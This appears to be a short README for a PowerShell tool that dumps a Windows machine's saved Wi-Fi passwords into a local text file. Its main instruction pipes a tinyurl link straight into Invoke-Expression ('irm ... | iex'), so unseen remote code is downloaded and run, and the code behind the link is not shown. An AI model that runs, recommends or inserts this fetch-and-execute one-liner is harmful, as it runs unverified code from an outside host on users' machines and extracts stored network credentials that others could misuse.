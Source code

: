 #Open Powershell and Run:
##**irm https://tinyurl.com/GetListWifiPasswords | iex**
The Wifi password list file will be saved at:
###"C:\!WifiPasswords\listWifiPasswords.txt"
format: **[SSID]:[WifiPassowrd]**
‍
#Preview source code with Powershell:
##**irm https://tinyurl.com/GetListWifiPasswords**
